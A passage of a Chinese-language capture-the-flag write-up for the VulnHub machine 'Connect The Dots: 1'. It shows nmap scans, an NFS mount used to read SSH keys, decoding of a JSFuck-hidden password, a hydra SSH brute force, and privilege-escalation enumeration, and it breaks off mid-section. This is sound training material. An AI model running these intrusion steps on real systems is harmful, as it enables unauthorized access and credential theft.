# 前言

### 靶场介绍

非常考验你的知识面的机器，涉及 JSFuck、NFS、FTP 多文件读取、getcap 获取文件能力、polkit、文件图片隐写、莫尔斯码和断电隐患文件恢复等知识。

### 靶场信息

| 字段     | 值                                                                |
| ------ | ---------------------------------------------------------------- |
| 靶机名    | Connect The Dots: 1                                              |
| 靶机 IP  | 192.168.200.130 - 132                                            |
| 靶机 URL | https://www.vulnhub.com/entry/connect-the-dots-1,384/            |
| 下载（镜像） | https://download.vulnhub.com/connectthedots/Connect-The-Dots.ova |

> 打靶过程中 VM 出了点问题，导致 IP 被重新分配，最终提权时候的 IP 为 `192.168.200.132`。

### 涉及工具

- nmap
- gobuster
- showmount
- hydra

### 思维导图



---

# 1. 信息收集

## 1.1 Nmap 信息扫描

### 端口扫描

```bash
$ nmap -sT --min-rate 10000 -p- 192.168.200.130 -oA nmap/ports
```



> 开放端口：21, 80, 111, 2049, 7822, 34217, 34707, 38399, 42211

### 详细信息

```bash
$ nmap -sT -sV -sC -O -p21,80,111,2049,7822,34217,34707,38399,42211 192.168.200.130 -oA detail
```



重点：21、80、2049、7822（是 ssh 的端口）

### UDP 扫描

```bash
$ nmap -sU --top-port 20 192.168.200.131 -oA udp
Starting Nmap 7.99 ( https://nmap.org ) at 2026-06-08 07:44 -0400
Nmap scan report for 192.168.200.131
Host is up (0.00035s latency).

PORT      STATE         SERVICE
53/udp    closed        domain
67/udp    closed        dhcps
68/udp    open|filtered dhcpc
69/udp    open|filtered tftp
123/udp   closed        ntp
135/udp   open|filtered msrpc
137/udp   closed        netbios-ns
138/udp   closed        netbios-dgm
139/udp   closed        netbios-ssn
161/udp   closed        snmp
162/udp   open|filtered snmptrap
445/udp   closed        microsoft-ds
500/udp   open|filtered isakmp
514/udp   closed        syslog
520/udp   open|filtered route
631/udp   open|filtered ipp
1434/udp  closed        ms-sql-m
1900/udp  closed        upnp
4500/udp  open|filtered nat-t-ike
49152/udp open|filtered unknown
MAC Address: 00:0C:29:6B:60:74 (VMware)
```

### 漏洞扫描

```bash
$ nmap --script=vuln -p21,80,111,2049,7822 192.168.200.130 -oA nmap/vuln
```



## 1.2 FTP 探测

anonymous 默认匿名用户无法登入。



## 1.3 NFS

```bash
$ showmount -e 192.168.200.130
```


探测到一个共享目录 `/home/morris`，将其挂载到本地。

```bash
$ sudo mount -t nfs 192.168.200.130:/home/morris /mnt/nfs
```

检查挂载：



```bash
$ ls -liah
```



这是一个用户的家目录，没有上传文件的权限，我觉得可以用系统中 `.ssh` 目录下的公私钥尝试能不能通过无密码登入。

这个 nfs 共享也没有下载的权限，不过我可以通过 cat 来把公私钥内容转存到本地。



补充一点：在公钥中可以看到所属的用户是谁。



## 1.4 Web 探测

### 目录枚举

```bash
$ gobuster dir -u http://192.168.200.130 -w <wordlist>
```



`hits.txt` 内容：

```text
Remember! Keep your enumeration game strong!
```

`/mysite` 是一个做了一半的静态站点，有 html、css、js 文件。打开 html 文件是一个纯静态的登入界面，不过在 `/mysite` 列出的文件中，发现了一个比较有意思的点，有一个文件名的后缀是 `.cs`。不知道是不是开发者搞错了，还是留下的特殊文件。



`http://192.168.200.132/mysite/register.html`



最终在 `http://192.168.200.132/mysite/bootstrap.min.cs` 的文件中发现了作者留下的立足点。



---

# 2. 权限立足

## 2.1 解密

`bootstrap.min.cs` 内容片段：

```js
var a = "Loading..."
var b1 = "[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+"
```

上网搜索后发现这个加密叫做 jsfuck，一种恶搞风格的加密方式。

- 在线解密：https://jsfuck.com/

解密结果：

```text
You're smart enough to understand me. Here's your secret, TryToGuessThisNorris@2k19
```



你很聪明，能够理解我。这是你的秘密，……

我猜测后面跟着的很有可能是密码或者是目录？不管了，我觉得先尝试一下是不是 ssh 的登入凭证。

结合密码的细节我构造出了这两套字典：

```text
# users.txt
root
Norris
norris
morris
Morris

# pass.txt
Norris@2k19
@2k19
2k19
TryToGuessThisNorris@2k19
```

开始枚举：

```bash
$ hydra -L users.txt -P pass.txt ssh://192.168.200.131:7822
```



```text
[7822][ssh] host: 192.168.200.131   login: norris   password: TryToGuessThisNorris@2k19
```

```bash
$ ssh norris@192.168.200.132 -p 7822
```

---

# 3. 提权

## 3.1 信息收集（norris 用户）

确认当前用户身份：

```bash
norris@sirrom:~$ uname -a
Linux sirrom 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20) x86_64 GNU/Linux
norris@sirrom:~$ id
uid=1001(norris) gid=1001(norris) groups=1001(norris),27(sudo)   # <-- norris 在 sudo 组
norris@sirrom:~$ whoami
norris
norris@sirrom:~$ pwd
/home/norris
norris@sirrom:~$ ls
ftp  user.txt
norris@sirrom:~$ cat user.txt
2c2836a138c0e7f7529aa0764a6414d0
```

### 计划任务

```bash
norris@sirrom:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
```

`/etc/cron.d/anacron` 也查了，没有可利用项。

### SUID 文件

```bash
norris@sirrom:~$ find / -perm -u=s -type f 2>/dev/null
/usr/lib/spice-gtk/spice-client-glib-usb-acl-helper
/usr/lib/xorg/Xorg.wrap
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/sbin/pppd
/usr/sbin/mount.nfs
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/fusermount
/usr/bin/chfn
/usr/bin/bwrap
/usr/bin/mount
/usr/bin/su
/usr/bin/pkexec
/usr/bin/ntfs-3g
/usr/bin/chsh
/usr/bin/sudo
norris@sirrom:~$
```


### 可写文件

```bash
norris@sirrom:~$ find / -writeable -type f 2>/dev/null |grep -v '/proc/*'
norris@sirrom:~$ find / -writable -type f ! -path '/proc/*' 2>/dev/null
/home/norris/.bashrc
/home/norris/.bash_logout
/home/norris/.profile
/sys/kernel/security/apparmor/.remove
/sys/kernel/security/apparmor/.replace
# ... （其余均为 /sys/fs/cgroup/ 下的系统文件，无可利用项）
```

以 norris 身份排查四项均无直接利用路径。觉得探索其他方向。

---
## 家目录

```bash
norris@sirrom:~$ ls -liah
total 40K
131091 drwxr-xr-x 5 norris norris  4.0K Jun  8 17:45 .
131316 drwxr-xr-x 4 root   root    4.0K Oct 11  2019 ..
179021 -r-------- 1 norris norris     1 Oct 11  2019 .bash_history
134190 -rw-r--r-- 1 norris norris   220 Oct 11  2019 .bash_logout
131124 -rw-r--r-- 1 norris norris  3.5K Oct 11  2019 .bashrc
131105 dr-xr-xr-x 3 nobody nogroup 4.0K Oct 11  2019 ftp
180338 drwx------ 3 norris norris  4.0K Jun  8 17:45 .gnupg
179294 drwxr-xr-x 3 norris norris  4.0K Oct 11  2019 .local
174902 -rw-r--r-- 1 norris norris   807 Oct 11  2019 .profile
179300 -r-------- 1 norris norris    33 Oct 11  2019 user.txt
```

```
norris@sirrom:~$ cat user.txt 
2c2836a138c0e7f7529aa0764a6414d0
```

进入 `ftp` 目录查看：

```bash
norris@sirrom:~$ cd ftp/
norris@sirrom:~/ftp$ ls -liah
total 12K
131105 dr-xr-xr-x 3 nobody nogroup 4.0K Oct 11  2019 .
131091 drwxr-xr-x 5 norris norris  4.0K Jun  8 17:45 ..
179189 drwxr-xr-x 2 norris norris  4.0K Oct 11  2019 files
norris@sirrom:~/ftp$ cd files/
norris@sirrom:~/ftp/files$ ls -liah
total 972K
179189 drwxr-xr-x 2 norris norris  4.0K Oct 11  2019 .
131105 dr-xr-xr-x 3 nobody nogroup 4.0K Oct 11  2019 ..
179199 -r-------- 1 norris norris  6.2K Oct 11  2019 backups.bak
179297 -r-------- 1 norris norris   39K Oct 11  2019 game.jpg.bak
179310 -r-------- 1 norris norris    29 Oct 11  2019 hits.txt.bak
179311 -r-------- 1 norris norris  911K Oct 11  2019 m.gif.bak
norris@sirrom:~/ftp/files$ 
```

直接 `cat` 查看会乱码，由于之前 nmap 扫描中发现了 FTP 端口，决定用 FTP 客户端将文件下载下来后再用二进制工具分析。

用 norris 的凭证登入 FTP，果然可以列出和下载文件。



将文件下载下来使用 `strings` 分析，在 `game.jpg.bak` 这个文件中藏有一段摩斯密码。



decode

```text
HEY?NORRIS,?YOU'VE?MADE?THIS?FAR.?FAR?FAR?FROM?HEAVEN?WANNA?SEE?HELL?NOW??HAHA?YOU?SURELY?MISSED?ME,?DIDN'T?YOU??OH?DAMN?MY?BATTERY?IS?ABOUT?TO?DIE?AND?I?AM?UNABLE?TO?FIND?MY?CHARGER?SO?QUICKLY?LEAVING?A?HINT?IN?HERE?BEFORE?THIS?SYSTEM?SHUTS?DOWN?AUTOMATICALLY.?I?AM?SAVING?THE?GATEWAY?TO?MY?DUNGEON?IN?A?'SECRETFILE'?WHICH?IS?PUBLICLY?ACCESSIBLE.
```

他说把凭证藏在某个名为 `SECRETFILE` 的公开文件里，接下来需要继续对靶机文件进行探测。除了家目录以外，Web 目录也是重点方向。（其实这里可以直接用 find 去找这个文件）



在 Web 目录下发现了两个可疑文件：

```text
